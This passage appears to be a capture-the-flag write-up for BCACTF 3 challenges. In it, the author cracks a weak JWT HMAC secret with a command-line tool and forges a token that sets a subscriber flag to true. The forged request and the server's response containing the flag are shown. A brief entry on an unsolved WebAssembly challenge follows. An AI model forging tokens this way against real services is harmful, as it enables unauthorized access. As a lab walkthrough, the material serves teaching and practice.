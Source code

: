 ```
┌──(kali㉿kali)-[~/…/bcactf3/web/tarot2/c-jwt-cracker]
└─$ ./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc1N1YnNjcmliZXIiOmZhbHNlLCJpYXQiOjE2NTQzMDA1ODd9.FeOzxBet7HJ3ry34my5cDjMnTY2zoRVjPlWAyiAHLS0

Secret is "38r4"
```


I'm lazy so i just entered the secret into [JWT.io](jwt.io)
![jwt](../../assets/img/ctf/jwt.png)

Request goes:
```http
GET /checktoken HTTP/1.1
Host: web.bcactf.com:49202
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc1N1YnNjcmliZXIiOnRydWUsImlhdCI6MTY1NDMwMDU4N30.e2O2Ph8cRm-DEFGz3sbcIhvnGbJ_9jpfWQvcqNK4RdM
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://web.bcactf.com:49202/card.html

```

and response goes:

```http
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Set-Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc1N1YnNjcmliZXIiOmZhbHNlLCJpYXQiOjE2NTQzMDA1ODd9.FeOzxBet7HJ3ry34my5cDjMnTY2zoRVjPlWAyiAHLS0; Path=/
Content-Length: 46
ETag: W/"2e-jFXDDuXnOxuEclnJMK02hg8gaCc"
Date: Sat, 04 Jun 2022 19:13:52 GMT
Connection: close

{"message":"bcactf{hm@c_256_yeeeeah_24u9402}"}
```


### Wasm Prison
>To leave the prison, enter the flag.
	Hint 1 of 2:
What is call_indirect
	Hint 2 of 2:
Bruteforce can sometimes be an option

DNF

[Solution by awt-256](https://ctftime.org/writeup/34226)

